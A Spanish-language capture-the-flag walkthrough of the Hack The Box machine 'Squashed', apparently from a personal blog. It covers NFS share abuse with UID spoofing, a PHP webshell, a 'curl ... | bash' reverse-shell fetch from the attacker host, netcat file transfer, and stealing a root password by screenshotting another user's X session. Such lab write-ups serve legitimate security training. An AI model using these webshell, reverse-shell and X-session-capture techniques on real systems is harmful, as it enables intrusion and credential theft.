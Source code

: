 **Iniciamos con el escaneo de nmap**

```
nmap -p- --open --min-rate 5000 -vvv -n -sS -Pn -oG allPorts 10.10.11.191
```

![escaneo nmap](/portfolio/blog/writeups/squashed/img/image.png)
**Detectamos los servicios y sus versiones corriendo en cada uno de los puertos**

```
nmap -p 22,80,111,2049,41627,42109,42731,58129 -sCV 10.10.11.191 -oN targeted
```

![escaneo nmap 2](/portfolio/blog/writeups/squashed/img/nmap.png)
**Vemos que tiene el puerto 80 (http) así que usamos la herramienta whatweb para ver que tecnologias está usando**

```
whatweb 10.10.11.191
```

![herramienta what web](/portfolio/blog/writeups/squashed/img/whatweb.png)

**Le damos un vistazo a la web desde el navegador**

![imagen de la web](/portfolio/blog/writeups/squashed/img/web.png)

**Despues de inspeccionar el sitio y enumerar posibles directorios ocultos , no logré encontrar nada , así que ahora toca enumerar más puertos a ver si encontramos el vector de ataque**

**Recordemos que la maquina tiene el puerto 2049 abierto y que corre el servicio NFS el cual puede ser interesante de enumerar**

![Puerto NFS](/portfolio/blog/writeups/squashed/img/puerto%20nfs.png)

**Ejecutamos el siguiente comando para poder ver que recursos de la maquina victima podemos montar en nuestra maquina atacante**

```
showmount -e 10.10.11.191
```

![Montura](/portfolio/blog/writeups/squashed/img/showmount.png)

**El comando nos revela dos recursos que pueden ser motados en nuestro equipo**

**Usamos el comando 'mount' para obtener el contenido de los recursos compartidos**

```
mount -t nfs 10.10.11.191:/home/ross ross
mount -t nfs 10.10.11.191:/var/www/html html
```

**Listamos el contenido**

![listar contenido](/portfolio/blog/writeups/squashed/img/tree.png)

**Vemos que hay un archivo de keepass llamado 'Passwords.kdbx'**

**Y a la carpeta HTML no se puede acceder debido a que su propietario es el usuario
2017**

![Sin permisos](/portfolio/blog/writeups/squashed/img/owner.png)

**Por tanto debemos crear un usario X en nuestra maquina para despues modificar sus atributos y que este se convierta en el usuario 2017**

```
useradd temporal
usermod -u 2017 temporal
passwd temporal
```

![creacion de usuarios](/portfolio/blog/writeups/squashed/img/useradd.png)

**Cambiamos la password de nuestra cuenta creada y ahora si , iniciamos sesión con ella**

```
su temporal
```

![Iniciar sesion](/portfolio/blog/writeups/squashed/img/login.png)

**Escribimos el comando bash para iniciar una consola**

![Comando bash](/portfolio/blog/writeups/squashed/img/bash.png)

**Despues de dar un vistazo al conntenido de la web podemos observar que tenemos sincronizado en nuestro equipo el contenido de la web**

![Web server](/portfolio/blog/writeups/squashed/img/webserver.png)

**para comprobarlo hacemos la siguiente prueba**

```
echo "<h1>Esto es una prueba</h1>" > test.php
```

![Test server](/portfolio/blog/writeups/squashed/img/testserver.png)

**Al comprobarlo , ya sabemos lo que sigue , webshell para ejecutar comandos de forma remota**

```
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

**Solo le tenemos que pasar el comando a ejecuar como parametro cmd en la url**

![Comando en URL](/portfolio/blog/writeups/squashed/img/cmdurl.png)

**Ahora levantamos un servidor en python para compartir el comando que queremos que se ejecute en la maquina para ganar acceso a esta**

![Scripts](/portfolio/blog/writeups/squashed/img/script.png)

**Nos ponemos en escucha por netcat por el puerto 443**

![Netcat](/portfolio/blog/writeups/squashed/img/netcat.png)

**Iniciamos el server en python**

```
python3 -m http.server
```

**A continuacion accederemos a la url:**

```
http://10.10.11.191/webshell.php?cmd=curl http://10.10.14.20:8000/revshell | bash
```

**Ahi recibimos la peticion a nuestro servidor http**

![Peticion http](/portfolio/blog/writeups/squashed/img/peticion.png)

**Se ejecutaria nuestro script y automaticamente recibiremos la reverse shell , ganando acceso al sistema**

![Reverse shell](/portfolio/blog/writeups/squashed/img/revshell.png)

**El siguiente paso es darle tratamiento a la tty**

```
script /dev/null -c bash
ctrl Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

**Podemos acceder a la flag de usuario ubicada en la siguiente ruta**

![flag user](/portfolio/blog/writeups/squashed/img/flag1.png)

**Con el comando w podemos obsoervar que usuarios están activos actualmente en la maquina victima:**

![Active users](/portfolio/blog/writeups/squashed/img/activeusers.png)

**Para la escalada de privilegios abusaremos del archivo .xAuthority que estaba oculto en la montura que creamos anteriormente en la carpeta ross/**
**Para ello tenemos que hacer la misma tecnica de crear un usuario nuevo y hacer que sea el propietario de dicho archivo**

```
usermod -u 1001 temporal
```

**nos compartimos el archivo .Xauthority**

![.Xauthority file](/portfolio/blog/writeups/squashed/img/authority.png)

**Con el siguiente comando podemos hacer una captura de pantalla del usuario ross**

```
xwd -root -silent -out screen.xwd
```

**La pasamos a nuestra maquina atacante**

nc -lvnp 666 > screenshot.xwd <- atacante

nc 10.10.14.20 666 < screen.xwd <- vicitma

convert screenshot.xwd screenshot.png

**Vemos que Ross tiene abierto el programa keepass y pudimos obtener la contraseña de root**

![Kepass](/portfolio/blog/writeups/squashed/img/kepass.png)

**Iniciamos sesion como root con dicha contraseña y obtenemos la flag**

![Root login](/portfolio/blog/writeups/squashed/img/root.png)

**Hemos comprometido la maquina**
